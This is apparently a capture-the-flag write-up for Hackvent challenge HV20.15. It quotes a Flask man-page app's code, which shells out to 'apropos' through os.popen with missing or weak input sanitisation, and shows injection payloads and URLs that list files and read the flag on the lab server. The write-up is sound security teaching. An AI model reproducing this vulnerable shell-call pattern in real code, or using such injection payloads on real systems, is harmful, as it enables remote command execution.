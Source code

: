 # HV20.15 Man Commands, Server Lost

For this challenge, we get access to a website which allows us to browse `man` pages online. Moreover, the footer of the website contains a link to its [source code](./code.py). From that we know that the app was built using _Python_ and _Flask_.

By browsing through the code, we can see that the app actually executes the `man` command on the server to generate the content. The parameters are taken from the `url`. This heavily looks like there could be the possibility for a command injection attack. In the handler for the search endpoint, we already found a comment and a sanitization function which confirms that this has been exploited before:

```python
@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
```

However, there are other endpoints that do similar things and don't use the `search_clean` function, so we should be able to perform a command injection attack there. Specifically, the `section` endpoint caught my attention as there is absolutely no input validation.

```python
@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)
```

Passing a malicious payload like `1; ls` would already lead to a command execution on the server. However, we still need a way to get the output, which is generated by rendering the `section.html` template. For this purpose, we have to tweak our injected command to produce an ouput that matches the required format for the `parseCommands` function. After taking a quick look at this function, I figured out that the format should be something along `123 456 - <command output>`. Based on this information, I was able to perform a simple command injection attack by accessing an URL like this:

https://3b498503-b6f6-432e-af69-59d6f3d15179.idocker.vuln.land/section/5;%20echo%20%E2%80%9C123%20456%20-%20$(ls%20-al)%E2%80%9D
(URL decoded payload is `5; echo "123 456 - $(ls -al)"`)

From the output we see that there is a `flag` file at `/`. Now we can get the flag by slightly adjusting the payload to `5; echo "123 456 - $(cat flag)"`

https://3b498503-b6f6-432e-af69-59d6f3d15179.idocker.vuln.land/section/5;%20echo%20%22123%20456%20-%20$(cat%20flag)%22

![Command Injection](./command-injection.png)

**Flag:** HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}
